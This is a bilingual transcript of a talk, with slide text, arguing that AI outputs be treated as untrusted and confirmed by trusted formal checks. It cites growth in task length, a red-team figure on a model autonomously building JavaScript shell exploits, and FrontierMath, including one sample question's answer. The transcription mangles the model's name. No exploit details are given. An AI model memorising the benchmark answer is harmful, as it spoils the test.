

**幻灯片文字 / Slide text**

```
AI
checker
“Build me a very
VERY secure VPN,
please
... <woofing noises>
  ... <sobbing> ... OKAY DONE
Answer: [very_secure_vpn.exe]
Security analysis:
- memory safety
- process isolation
- encryption
Hedonic analysis:
- You got exactly
  what you wanted
- You are happy!
```

“这真的是我想要的 AI 吗？”你就是看不出来，只能寄希望于它。我们确实希望解决这种问题。理想情况下，我们想说：“能不能给我做这个非常安全的 VPN？”然后，有某种办法知道，自己究竟有没有得到想要的东西。Is this the AI wanted? Well, you just sort of can't tell. So, you better kind of hope, right? We'd really like to solve this sort of problem. So, ideally what we'd really want is we really want to say, can you build me this really secure VPN? And you know, you have some way of finding out whether or not you got the thing you wanted.

你希望安全分析能够告诉你：[清嗓] 这个系统确实安全，密码学用得正确，加密也做得正确。实际上，你真正想要的是某种“幸福感分析”，告诉你：“你得到了自己想要的一切，你满意了，你开心了。”当然，这不会发生。我是英国人，所以这永远不会发生。不过，至少可以没那么不开心。Um you kind of want to know that your security analysis says that this is [clears throat] secure. This is like does the use of cryptography correctly. Does the encryption correctly. I mean really, what you want is the sort of hedonic analysis that says, you got exactly what you wanted. You are satisfied. You are happy. This obviously doesn't happen. I'm English, so it's never going to happen. But it's like you're kind of less unhappy at least.

## AI 的数学优势：指数增长研究AI's Mathematical Edge: A Study in Exponential Growth

**展开前面的幻灯片（16）Show preceding slides (16)**

幻灯片 16 Slide 16



**幻灯片文字 / Slide text**

```
Trusted
Untrusted
AI
checker
Theme: trustworthy checks
```

幻灯片 17 Slide 17



**幻灯片文字 / Slide text**

```
Trusted
Untrusted
AI
checker
Theme: trustworthy checks
Heuristic search
-
Use any means available
-
Quick, powerful, opaque
-
May be wrong
Veriﬁcation
-
Highly predictable methods
-
Slow, simple, legible
-
Guaranteed correctness
```

我们确实想实现这一点。这里的主题是，希望能把 AI 作为一个不可信的产出来源，再通过另一条路径，获得可信的保证。如果能做到，这是一种非常好的模式。Um And so we'd really like to kind of get that. Now, the theme here is that we'd really like to have ways of kind of having the AI be a sort of untrusted source of things and have some other way of like getting to kind of trusted kind of guarantees. And this is like a very kind of nice pattern if we can achieve it.

一方面，我们希望用启发式过程搜索答案，使用一切可用手段。这个过程可以快速、强大，却不透明；过程中即使出错，也没关系。AI 可以很强大，而我们不必因此信任它。Like, you know, on the on one side we want to have like heuristic processes where we kind of search for things. We use any means available. We get the kind of quick you have a quick and powerful and opaque process and we can sort of like be wrong and it doesn't matter. Like the AI can be powerful and it doesn't matter.

另一方面，我们希望有一种检查方式：高度可预测，哪怕较慢，但清晰可理解。我们可以确信，它把事情判断对了，而且有正确性保证。我们之所以非常想要这些，是因为有些场景中的决定，确实关系重大。On the other hand, we want ways to check this which are kind of highly predictable that are slow and they're legible. We can be confident that they got things right where we have guarantees of correctness. And we really would like this because we want in some cases the decisions actually matter.

我会忍住，不在这里说出 P 和 NP 这两个词。不过，计算机科学中确实存在一个很深刻的区分：有时我们是在寻找答案，有时是在检查答案。对于 AI，我们希望能把这个模式用在很多事情上。Um I'm going to resist saying the words P and NP in here somewhere, but you know, this is sort of like a deep kind of like thing in computer science that sometimes we are seeking the answer and sometimes we are checking the answer. And like for AI, we want to kind of do this for lots of kinds of things.

幻灯片 18 Slide 18



**幻灯片文字 / Slide text**

```
Trusted
Untrusted
Theme: trustworthy checks
AI math theorems
AI-built systems
AI actions
Theorems are true!
System is secure,
safe, correct
Actions are allowed,
helpful, harmless
```

比如，AI 提出一些定理，声称它们正确，我们想知道这些定理是不是真的。对于 AI 构建的系统，我们想知道，它是否安全、可靠、正确，是否正是自己想要的东西，是否让自己满意。We want to know that our theorems the AI comes up with theorems that it claims are correct and we want to know that the theorems are true. For AI built systems, we want to know the AI built system is secure or safe or correct or the thing you want it, you know, you are satisfied.

对于 AI 的行动，我们希望它们是获准的、有帮助的、无害的。理想情况下，AI 本身不应该是我们必须信任的东西。我们希望提高得到想要答案的概率，但不希望必须依赖 AI 的可靠性，因为这些东西是巨大的神经网络。与其说是构建出来的，不如说是生长出来的。它们不一定值得信任。AI actions, you want the actions to be allowed or helpful or harmless and ideally we want the AI to be mostly not a thing we have to trust. We want to increase the probability we get the answer we want, but we don't want to have to rely on that because these things are giant neural networks. They're more grown than built. You know, they're not things we can trust necessarily.

幻灯片 19 Slide 19



**幻灯片文字 / Slide text**

```
Trust and AI
AI Does Math
Proofs as Code
Formal oversight
```

好消息是，AI 开始擅长数学了，而数学可能为我们提供工具，使我们能够从搜索走向可信检查。AI 做数学已经有一段时间了，我觉得这个过程很有意思。第一条消息就是：AI 已经相当不错。So, the good news is that AI is starting to get good at math and that math might give us tools for kind of getting to this state where we can do like search over where we can kind of get to trustworthy checks. So, AI has been doing sort of math for a while and I think it's been pretty interesting what's happened. So, I mean the first bit of news is like AI is quite good.

幻灯片 20 Slide 20



**幻灯片文字 / Slide text**

```
BREAKING 🚨
AI got good
```

在座也许有人对此持怀疑态度，我很乐意会后讨论。但显然，AI 在最近这段不长的时间里，进步了很多。接下来，我要做任何 AI 报告里最俗套的一件事：放出一张图，横轴是时间，图上有一条不断上升的曲线。我猜，很多人已经看过这张图。Um We may have some skeptics in the audience of this claim. Uh I'm happy to argue with afterwards, but AI has clearly got quite a lot better over the last short while. So, I'm going to This is the number one cliche of any AI talk. I'm now going to put up a line on a graph that's going up, and it has time on the bottom. Okay. I imagine many of you have seen this graph before.

幻灯片 21 Slide 21

[figure not shown]

**幻灯片文字 / Slide text**

```
https://metr.org/blog/2025-03-19-measuring-ai-ability-to-complete-long-tasks/
```

- https://metr.org/blog/2025-03-19-measuring-ai-ability-to-complete-long-tasks/

这里的设想大概是，耗时更长的任务，也更难。图中可以看到，早期的 GPT-2，能做的事情，大约相当于人类四秒钟就能完成的任务。这些不是很长、很大的任务。然后，我们看到一条很漂亮的曲线。这是对数坐标，所以它表现的是指数增长。And so, the claim is that like a long task is a more difficult task, I suppose. So, what we see here is that early on, you know, GPT 2, we have you know, GPT 2 can do things that a human can do in 4 seconds. These are not very long very big tasks. And what we see is a nice kind of like This is a log scale, so this is an exponential.

Claude Opus 4.6 已经能够完成人类可能需要十个小时的任务。这些任务相当困难。我们看到，AI 在人类直觉上认为很难的任务上，能力持续提高。有时，能力还会出现非常剧烈的跃升。很多人也许注意到，最近有个新模型出来了。不过，严格来说，它并没有公开发布。Uh what we see is Claude Opus 4.6 can do tasks that a human might take 10 hours to do. Like, this is quite These are quite difficult tasks. And so, we see just consistent improvements in the AI's ability to do things that like humans intuitively find difficult. And we also see sometimes quite dramatic jumps in ability. So, many of you may have been noticed that the new model came out recently. It didn't come out.

幻灯片 22 Slide 22



**幻灯片文字 / Slide text**

```
https://red.anthropic.com/2026/mythos-preview/
```

- https://red.anthropic.com/2026/mythos-preview/

它叫 Mythos。这里是 Anthropic 红队的一项结果：自主发现 JavaScript shell 漏洞利用。我们可以看到，Opus 4.6，也就是不久前才发布的当时最先进模型……It wasn't released. It's called Methus. And so, here's something from the AI, you know, the Anthropic red teaming team. Um So, what this is finding JavaScript shell exploits autonomously. Um And basically, what we see is like Opus 4.6, then the kind of state of the art just fairly recently released.

## 将话题从“AI”转向“前沿数学Changing the topic from "AI" to "frontier math

图底部那条很短的红线，表示它只能在大约 0.3% 的案例中构造出漏洞利用。而仅仅几个月后构建的 Mythos，能在 72% 的案例中做到。这意味着，构造这类漏洞利用的能力，提高了大约一百倍。And that little red line at the bottom there is it can do sort of like it can construct like 0.3% or something of the kind of the kind of case cases it can find exploits. And like Methuselah, which is like built a couple of months later, it can build exploits in 72% of the cases, right? That's like a 100x increase in its ability to build exploit build these kind of things.

幻灯片 23 Slide 23



**幻灯片文字 / Slide text**

```
AI got good
at math
```

这可是很大的能力提升。看起来不太妙。当然，也可以说很精巧。与此同时，我觉得，AI 也确实开始非常擅长数学了。从 FrontierMath 基准中，这一点非常明显。FrontierMath 是一个面向研究生水平数学题的基准。Um that's quite a large gain in capability. This seems bad. Um well, you know, seems elegant. Um It's also true, I think, that AI is starting to get really good at math. And I think that you can see this really clearly in so in the sort of frontier math benchmark. So, frontier math is designed as a benchmark of graduate level math problems.

幻灯片 24 Slide 24

[figure not shown]

**幻灯片文字 / Slide text**

```
https://epoch.ai/frontiermath/ (Tiers 1-3)
```

- https://epoch.ai/frontiermath/

这些题由数学家设计，不公开，不在互联网上，用于测试 AI 的能力。不同层级，大致对应不同难度。这里展示的是第一到第三层；还有第四层，我没放出来，不过它的曲线形状也基本相同。So, these are problems where you know, they are clearly they are designed by mathematicians, they are closed, they're not on the public internet, and they are designed to test AI capabilities. So, the tiers are roughly difficulty tiers. Tiers 1 to 3 There's also a tier four on which I haven't put up here, but it has more or less the same shape.

第一到第三层，大致一直延伸到单个研究生水平数学工作者会处理的任务，所以这些题很难。我自己显然一道也做不出来。同样可以看到，在 2024 年 7 月左右，多数模型的得分还是零。And tier four tiers 1 to 3 are sort of all the way up to I think more or less like individual grad level mathematician tasks. So, these are quite hard tasks, you know, like I clearly can't do any of these tasks. And what we see again is like, you know, between July 2024, most of the models got zero.

## FrontierMath：追寻真理Frontier Math: The Quest for Truth

幻灯片 25 Slide 25



**幻灯片文字 / Slide text**

```
What does it mean
to be good at math?
```

到了 2026 年，它们能达到 45%、50% 的得分。这不是重复数据集里已经有的东西。从某种意义上说，这是全新的知识，因为除了自己搜索，模型没有别的办法得到答案。一个有意思的问题是：在这种情况下，说 AI 擅长数学，究竟意味着什么？And then we get to 2026, they're scoring 45%, 50% of like, you know, these are not like you know, repeating things that are in the data set. This is like in some sense brand new knowledge because there's no way the model could have found it other than just by searching. It's interesting to kind of look at this and ask like, what does it mean for the AI to be good at math in this case?

**展开前面的幻灯片（26）Show preceding slides (26)**

幻灯片 26 Slide 26



**幻灯片文字 / Slide text**

```
FrontierMath: hard questions, simple solutions
Q:
A: ???
```

幻灯片 27 Slide 27



**幻灯片文字 / Slide text**

```
FrontierMath: hard questions, simple solutions
Q:
A:
FrontierMath Tier 3 sample question, “Enumerative geometry over finite fields”
https://epoch.ai/frontiermath/tiers-1-4/benchmark-problems/#tier-3
866   ← note, simple integer solution
```

- https://epoch.ai/frontiermath/tiers-1-4/benchmark-problems/#tier-3

因为这里仍然存在同样的“猜测与检查”问题。FrontierMath 的设计是：问题很难，答案很简单。这里就是一道题。我相信，在座有些人能读懂它，我不行。但关键在于，最后这里提出了一个问题。Because we have the sort of same guessing and checking problem, right? So, in this case, like frontier math is structured as like hard questions, easy answers. So like here's a you know, here's a problem. Uh let's Okay, I'm sure that some people in this room can read this, but I can't. But like the point is at the end here there is a question.

它要你求某个东西，诸如此类。在座的教授们，当然已经算出答案了；对于我们这些不懂这类数学的人，我就剧透一下：答案似乎是 866。真了不起。好处在于，至少在 FrontierMath 中，答案是这种非常短小、紧凑的整数。Like they sort of find blah rights, you know, the professor you the professors in the audience of course have already got the answer, but you know, for the rest of us who don't understand this kind of mathematics, I will spoil this and say the answer apparently is 866. Incredible. But the nice thing about this is that like we have like for Frontier Math at least, we have these kind of like very small compact integer answers.

**展开前面的幻灯片（28–29）Show preceding slides (28–29)**

幻灯片 28 Slide 28



**幻灯片文字 / Slide text**

```
math AI
Checkable answers
checker
FrontierMath problem
